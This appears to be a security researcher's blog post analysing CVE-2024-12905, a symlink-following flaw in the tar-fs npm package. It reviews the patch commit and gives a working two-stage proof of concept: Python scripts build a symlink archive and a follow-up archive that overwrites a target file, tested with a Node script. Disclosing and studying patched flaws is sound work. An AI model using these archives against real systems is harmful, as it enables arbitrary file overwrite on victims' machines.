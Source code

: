```yaml
---
title: CVE-2024-12905 - tar-fs Vulnerability Ananlysis and PoC
date: 2025-04-18 09:00:00 +0800
categories: [Vulnerability Research, Exploit Development]
tags: [arbitrary file write, file overwrite, link following]
math: true
mermaid: true
media_subpath: /assets/posts/2025-04-18-tarFs-PoC
image:
  path: preview.png
---
```


# Vulnerability anaylsis and PoC Development for CVE-2024-12905

## Introduction     
The `tar-fs` npm package is commonly used in JavaScript projects to pack and extract `.tar` archive files. However, a critical vulnerability ([CVE-2024-12905](https://github.com/advisories/GHSA-pq67-2wwv-3xjx)) affects several versions of this package — specifically:

- Versions from 0.0.0 before 1.16.4

- Versions from 2.0.0 before 2.1.2

- Versions from 3.0.0 before 3.0.7

This vulnerability allows attackers to craft malicious `.tar` archives that can write or overwrite files outside the intended extraction directory, potentially leading to arbitrary file write attacks. This kind of flaw poses a serious risk, especially in environments that automatically extract user-provided archives.

In this blog, we’ll dive into the `tar-fs` source code and analyze the relevant Git commits before and after the patch to understand how the vulnerability works. We'll also walk through the process of crafting a proof-of-concept (PoC) exploit to demonstrate its impact.

## Vulnerability Analysis
While researching recently published vulnerabilities for a new vulnerable machine concept, I came across **CVE-2024-12905**. The description immediately piqued my interest, and I was eager to replicate the vulnerability. However, I quickly realized that no public exploit code existed for it.

Determined to explore further, I decided to dive into the patch diffs myself to uncover exactly where the vulnerability was introduced—and more importantly, how it was fixed—so I could develop a working proof of concept (PoC).

Fortunately, the researchers who discovered the vulnerability referenced a specific commit hash in the `tar-fs` repository where the issue was addressed: [mafintosh/tar-fs@a1dd7e7](https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed).

Upon reviewing this commit, I noticed a number of key additions to the code that appeared to patch the underlying issue. 

First, on line `123`, a new line was introduced to retrieve the absolute path of the current working directory. This serves as a baseline for validating file paths during extraction.

Then, on lines `221` to `223`, an important security check was added. This logic ensures that when unpacking archives, symbolic links are verified to confirm they **do not** point to locations outside the current working directory.

As shown in *Figure 1*, new lines were added to perform these validation checks. This includes a call to the `inCwd()` function, which is responsible for ensuring that resolved paths stay within the current working directory.

The actual implementation of `inCwd()` can be seen in *Figure 2*.

![Additions to the code](github_commit_and_additions.png)  
*Figure 1: Key Code Additions*

![inCwd Code Addition](inCWD_code_addition.png)  
*Figure 2: Implementation of `inCwd()`*


From these observations, we can begin to pinpoint the core of the vulnerability. In the affected versions of `tar-fs`, it is possible to unpack `.tar` archives containing symbolic links that point **outside** the current working directory. This oversight could allow attackers to write or overwrite arbitrary files on the system by leveraging specially crafted archive contents.


## Exploit Development
After identifying the vulnerability i moved on to crafting an exploit to prove ths concept. From the vulnerabilty i came to understand that we could submit archives with symbolic links and the affected version of `tar-fs` would happily unpack it. The exploitation doesn't end here as there are two stages involved in successfully obtaining a file write/overwrite.

### Stage 1: Creating a tar archive with a symbolic link embedded
In this stage, we use Python to craft a `.tar` archive that contains a symbolic link. This symbolic link is configured to point to a specific target file on the system that we intend to overwrite during extraction. 

```python
import tarfile
import os

archive_name = 'stage_1.tar'
link_name = 'normal_file' 
symlink_target = '../../../../../../../../../home/mcsam/poc' # Replace with traversed path to the file you want to overwrite

# Create symbolic link
os.symlink(symlink_target, link_name)

# Archive the symbolic link
tar = tarfile.open(archive_name, 'w')
tar.add(link_name, recursive=False)
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_1.tar 
lrwxrwxrwx mcsam/mcsam       0 2025-04-18 15:06 normal_file -> ../../../../../../../../../home/mcsam/poc
```

When `stage_1.tar` is unpacked on the target system, the symbolic link `normal_file` will be dropped in the extraction directory. This sets up the environment for the next stage, where this symlink could potentially be used to overwrite the target file it points to.

### Stage 2: Creating stage_2 tar archive 
In this stage, we create another TAR archive named `stage_2.tar`. This archive contains a regular file with the same name as the symbolic link we created in Stage 1 (e.g., `normal_file`).

The contents of this new file represent the data we intend to write into the target file on the victim system — the one the symbolic link points to.

This can also be achieved using Python.
```python
import tarfile

path_to_file_to_archive = 'poc' 
archive_name = 'stage_2.tar'

tar = tarfile.open(archive_name, 'w')
tar.add(path_to_file_to_archive, 'normal_file') # normal_file: same name as the symbolic link
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_2.tar 
-rw-rw-r-- mcsam/mcsam      19 2025-04-18 15:16 normal_file
```

#### What Happens When stage_2.tar is Unpacked
When `stage_2.tar` is unpacked by the vulnerable `tar-fs` application, it attempts to write the file `normal_file` to the file system.

However, recall that a symbolic link named `normal_file` already exists on the target (created during Stage 1). As a result, when `tar-fs` tries to write to `normal_file` in its current working directory, it will **follow the symlink** and end up overwriting the actual file it points to: `../../../../../../../../../home/mcsam/poc.`

This allows us to effectively overwrite an arbitrary file on the target system, provided the process has the necessary write permissions to that file.

## Verifying/Testing The Exploit
First, we set up our environment using `npm` and install a vulnerable version of `tar-fs`:

```
npm install tar-fs@3.0.0
```

#### Extracing Stage 1
Next, we create a simple test script named `test.js` that uses tar-fs to extract a tar archive:
```javascript
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_1.tar
fs.createReadStream('stage_1.tar').pipe(tar.extract('./output'))
```

Run the script with:
```
node test.js
```

#### Extracting stage 2
Now, we update the script to extract `stage_2.tar` instead:
```javascript
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_2.tar
fs.createReadStream('stage_2.tar').pipe(tar.extract('./output'))
```
Run the script again and voilà — the path traversal takes effect.   
`/home/mcsam/poc` gets overwritten.

#### Verifying the exploit
![Final PoC](final_poc.png)

## References
- [https://github.com/advisories/GHSA-pq67-2wwv-3xjx](https://github.com/advisories/GHSA-pq67-2wwv-3xjx)
- [https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed](https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed)
